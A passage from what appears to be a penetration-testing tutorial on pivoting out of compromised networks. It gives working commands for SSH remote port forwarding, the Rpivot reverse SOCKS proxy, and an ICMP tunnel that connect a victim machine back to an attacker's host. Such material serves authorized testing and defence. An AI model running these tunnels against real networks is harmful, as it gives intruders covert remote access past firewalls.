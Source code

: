 </div>

Now connect to your server with the newly created user with `-R` flag.
Linux system:

`ssh sshproxy@your_server -R 31337:127.0.0.1:31337`

For windows you will need to upload
[plink.exe](http://www.chiark.greenend.org.uk/~sgtatham/putty/latest.html)
first. This is a console version of putty. To run it:

`plink.exe sshproxy@your_server -R 31337:127.0.0.1:31337`

The `-R` flag allows you to bind port on the server side. All
connections to this port will be relayed to a specified port on the
client. This way we can run 3proxy socks service on the client side
(compromised machine) and access this port on the attacker’s host via
ssh `-R` flag.

### Rpivot

This is my favorite method of traversing NAT connections.
[Rpivot](https://github.com/artkond/rpivot) is a reverse socks proxy
tool that allows you to tunnel traffic via socks proxy. It connects back
to your machine and binds a socks proxy on it. It works just like
`ssh -D` but in opposite direction. Server side:

`python server.py --proxy-port 1080 --server-port 9999 --server-ip 0.0.0.0`

Client side:

`python client.py --server-ip <ip> --server-port 9999`

As a result, a socks4 proxy service will be bound server side on port
1080.

Exfiltrating from the internal network
--------------------------------------

Here’s a different case. Let’s say your social engineering gig ended up
placing you in the internal network. You have limited connectivity and
ability to execute command on the compromised machine. Of course, if the
internet is directly routed and not firewalled you can resort to any
technique described above. But if you’re not so lucky there’re still
ways to pivot your way out.

### ICMP tunneling

If icmp traffic is allowed to external networks then most likely you can
establish an icmp tunnel. The downside is that you will need
root/administrator privileges on the target system becase of the
necesity to use raw sockets. Check this tool out -
<http://code.gerade.org/hans/>. Personally I’ve never tried running it
on Windows. It works like a charm on Linux tho. Server side command
(attacker’s machine):

`./hans -v -f -s 1.1.1.1 -p P@ssw0rd`
